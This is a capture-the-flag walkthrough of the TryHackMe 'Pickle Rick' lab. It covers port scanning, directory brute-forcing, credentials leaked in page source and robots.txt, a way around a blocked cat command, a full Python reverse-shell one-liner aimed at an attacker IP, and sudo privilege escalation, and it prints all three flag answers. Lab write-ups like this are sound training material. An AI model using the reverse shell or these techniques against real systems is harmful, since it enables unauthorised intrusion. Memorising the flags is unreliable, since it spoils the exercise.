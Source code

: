 Room: https://tryhackme.com/room/picklerick

After a scanning with nmap, we can see that ports 22 and 80 are open.  

Port 80 - is the website we're currently inspecting, at http://[machine_ip].  
Port 22 - is the SSH service running, which may be useful at a later time.

We can run a directory bruteforcing tool to scan the website, in order to discover hidden directories.   

Personally, I'll use gobuster, but dirbuster can be used as a GUI alternative.  

While the scan is running, I had a quick look at the main page's source code. We see that the developers left some notes for themselves.   

> Username: R1ckRul3s

In the meanwhile, the directory bruteforcing has finished. We found a few interesting results.  

First of all, the file robots.txt contains some (maybe) useful information: **Wubbalubbadubdub**  

Using the username found earlier and the text inside robots.txt we can log in as Rick in the /login.php page.  

There we find a command panel, the other links being unavaible. Using the **ls** command it returns the files inside the current directory.  

###### The output of **ls** command  

>Sup3rS3cretPickl3Ingred.txt  
>assets  
>clue.txt  
>denied.php  
>index.html  
>login.php  
>portal.php  
>robots.txt  

The downside is that the **cat** command is disabled.  

Using some bash, we can use __while read line; do echo $line; done <Sup3rS3cretPickl3Ingred.txt__  

The output of the file content is **mr. meeseek hair**, being the **first** flag we need for this CTF. **[1]**

We can read the **clue.txt** file using the same method as before.  
>Look around the file system for the other ingredient.

Since Python is installed on the remote machine, I used a python reverse shell and started a netcat listener on the attacking machine. 

> python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("MY_MACHINE_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'  
* Use pty.spawn("/bin/bash") at the end for spawning a bash shell insdead of a sh.  

We get a reverse shell as www-data user. After checking the SUDO permissions, we see that this user has permission to run any command with sudo privileges, which makes it really easy for us to find the other two flags on the system.  

By using the **sudo su root** command, we can switch to the user **root**.  

The second **flag** is **1 jerry tear** and is located at **/home/rick**. **[2]**  

The third and final **flag** is **fleeb juice** and is located inside the **/root** directory. **[3]**
